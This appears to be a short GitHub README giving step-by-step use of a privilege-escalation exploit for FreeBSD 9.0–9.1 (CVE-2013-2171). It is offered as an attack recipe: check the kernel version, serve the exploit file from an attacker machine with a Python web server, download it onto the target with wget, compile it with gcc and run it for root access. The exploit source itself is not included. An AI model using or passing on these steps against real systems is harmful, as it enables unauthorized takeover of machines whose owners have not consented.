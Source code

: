 # FreeBSD-9.0-9.1 - Privilege-Escalation
CVE-2013-2171

By fbsd9lul@hunger.hu

##How to Exploit!

**1° Check the kernel version**

```
uname -a

FreeBSD freebsd 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012
```

**2° Transfer this file to target**

```
Attacker machine -> python3 -m http.server 8080

Target machine -> wget IP:8080/26368.c
```

**3° Use GCC to compile the code**

```gcc 26368.c -o exploit```

**4° Run the exploit**

```./exploit```
